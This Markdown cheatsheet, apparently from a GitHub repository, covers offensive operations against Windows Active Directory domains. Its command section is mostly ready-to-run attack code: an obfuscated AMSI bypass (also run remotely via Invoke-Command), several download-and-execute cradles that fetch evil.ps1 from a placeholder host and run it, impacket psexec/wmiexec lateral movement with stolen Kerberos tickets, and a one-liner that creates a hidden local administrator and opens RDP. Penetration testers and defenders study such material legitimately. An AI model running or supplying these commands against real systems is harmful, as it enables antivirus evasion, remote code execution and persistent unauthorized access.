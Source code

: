 # Windows-Domain-Cheatsheet

# Index
* [General](#General)
* [Initial Access](Initial-Access.md)
* [Host Reconnaissance](Host-Reconnaissance.md)
* [Host Persistence](Host-Persistence.md)
* [Evasion](Evasion.md)
* [Local privilege escalation](../infrastructure/privesc_windows.md)
* [Post-Exploitation](Post-Exploitation.md)
* [Lateral Movement](Lateral-Movement.md)
* [Domain Enumeration](Domain-Enumeration.md) 
* [Domain Privilege Escalation](Domain-Privilege-Escalation.md)
* [Domain Persistence](Domain-Persistence.md)
   
# General
## Good links
- https://cybersecuritynews.com/active-directory-checklist/

## Commands
#### Access C disk of a computer (check local admin)
```
ls \\<COMPUTERNAME>\c$
```

#### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<NAME>"
```

#### Save Credentials
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

#### Find a specific file
```
Get-Childitem -Path C:\ -Force -Include <FILENAME OR WORD TO SEARCH> -Recurse -ErrorAction SilentlyContinue
```

#### Check access to a file
```
$test = get-acl <PATH>
$test.Access
```

#### Transfer files base64
```
$Content = Get-Content -Encoding Byte -Path 20221025020336_BloodHound.zip
[System.Convert]::ToBase64String($Content)
$Base64 = "<PASTE BASE64>"
Set-Content -Value $([System.Convert]::FromBase64String($Base64)) -Encoding Byte -Path bloodhound.zip
```

#### Crackmapexec on windows
- Download cme https://github.com/byt3bl33d3r/CrackMapExec/releases/
- Download latest version of python which is required my cme (currently 3.10) (Windows embeddable package (64-bit)) https://www.python.org/downloads/windows/

```
#add python to path variable:
$env:Path += ";c:\python"
$env:Path += ";c:\tools\python"

#add the register key if error blablah\DemoDLL_RemoteProcess.vcxproj.filters
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem" /v LongPathsEnabled /t REG_DWORD /d 1 /f

#add the registery key for colors
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

#### Change tickets .kirbi to .ccache and vice versa
```
python3 ticketConverter.py Administrator.kirbi Administrator.ccache
````

#### Use tickets with impacket
```
export KRB5CCNAME=<TGT_ccache_file>
python3 script.py -k -no-pass

python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

#### Example impacket Domain Trust ticket
```
python3 /opt/impacket/examples/psexec.py -dc-ip <CHILD DC FQDN> <DOMAIN>/Administrator@<TARGET DC FQDN> -k -no-pass -debug
```

#### AMSI Bypass
- https://amsi.fail/
- Or use the one below
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

#### Download and execute cradle
- Usefull tool: https://github.com/danielbohannon/Invoke-CradleCrafter
```
iex (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/payload.ps1')

$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://xx.xx.xx.xx/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

#PSv3 onwards

iex (iwr 'http://xx.xx.xx.xx/evil.ps1')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://xx.xx.xx.xx/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://xx.xx.xx.xx/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

### Add user to local admin and RDP group and enable RDP on firewall
```
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```


